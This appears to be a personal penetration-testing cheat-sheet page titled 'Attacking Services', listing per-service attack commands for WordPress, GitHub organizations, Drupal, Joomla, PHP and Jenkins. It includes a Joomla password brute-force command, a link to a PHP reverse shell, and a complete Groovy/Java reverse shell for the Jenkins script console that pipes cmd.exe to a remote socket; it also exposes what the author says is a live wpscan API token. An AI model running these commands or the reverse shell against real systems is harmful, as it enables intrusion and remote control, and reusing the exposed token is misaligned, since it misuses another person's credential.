 ```yaml
---
layout: blank
pagetitle: Attacking Services
---
```



**The best methodology for pentesting services is to usually just search "Pentesting {service name}"**

[https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file](https://github.com/saisathvik1/OSCP-Cheatsheet?tab=readme-ov-file)
- Scroll down for services scanning

Wordpress
- `wpscan --url {url} -e u,vp,vt --plugins-detection aggressive --api-token lT8xySbw7gMN4a2SoFlwpEXI8BzPdEyDn1GAcdaGKAE`
  - Yes this is my wpscan free account api token with a whopping 25 scans per day

Github
- Use `gato-x` to enumerate entire organizations
  - [https://github.com/AdnaneKhan/Gato-X](https://github.com/AdnaneKhan/Gato-X)
  - `gato-x enum --target {org_name}`
    - Requires a `GH_TOKEN` environment variable; just add `export GH_TOKEN="{token}"` to shell config file
- Use `noseyparker` to scan entire organizations for passwords
  - [https://github.com/praetorian-inc/noseyparker](https://github.com/praetorian-inc/noseyparker)
  - `noseyparker scan --github-org={org_name}`

Drupal
- `droopescan scan drupal -u {url}`

Joomla
- `droopescan scan joomla -u {url}`
- `sudo python3 joomla-brute.py -u {url} -w passwords.txt -usr {username}
    - [https://github.com/ajnik/joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce)

PHP
- [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) - reverse shell (cross platform)

Jenkins
- Reverse shell:

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```